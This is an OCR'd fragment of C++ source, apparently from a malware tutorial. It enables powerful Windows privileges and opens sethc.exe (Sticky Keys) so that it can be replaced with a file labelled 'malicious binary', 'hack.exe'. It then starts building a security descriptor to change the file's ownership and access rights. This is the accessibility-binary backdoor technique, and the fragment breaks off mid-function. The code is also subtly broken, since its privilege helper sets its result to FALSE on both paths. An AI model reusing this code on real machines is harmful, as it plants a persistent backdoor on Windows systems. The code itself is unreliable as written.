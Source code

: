 ```cpp
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  if (!setPrivilege(SE_TAKE_OWNERSHIP_NAME)) return -1;
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!setPrivilege(SE_RESTORE_NAME)) return -1;
  if (!setPrivilege(SE_BACKUP_NAME)) return -1;

  HANDLE hFile = CreateFileA((LPCSTR)legitApp, GENERIC_WRITE, 
  FILE_SHARE_READ, NULL, OPEN_EXISTING, 
  FILE_ATTRIBUTE_NORMAL, NULL);

  // obtain the SID for the current user
  HANDLE hToken;
  DWORD dwSize = 0;
  PTOKEN_USER pTokenUser = NULL;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
    printf("Failed to open process token: %d\n", GetLastError());
    CloseHandle(hFile);
    return 1;
  }
  printf("open process token: ok\n");

  // get the required size for the token information
  GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
  pTokenUser = (PTOKEN_USER)malloc(dwSize);
  if (pTokenUser == NULL) {
    printf("failed to allocate memory for token information\n");
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("allocate memory token info: ok\n");

  // get the token information
  if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
    printf("failed to get token information: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("get token info: ok\n");

  // initialize a security descriptor
  SECURITY_DESCRIPTOR sd;
  if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
    printf("failed to initialize security descriptor: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
```
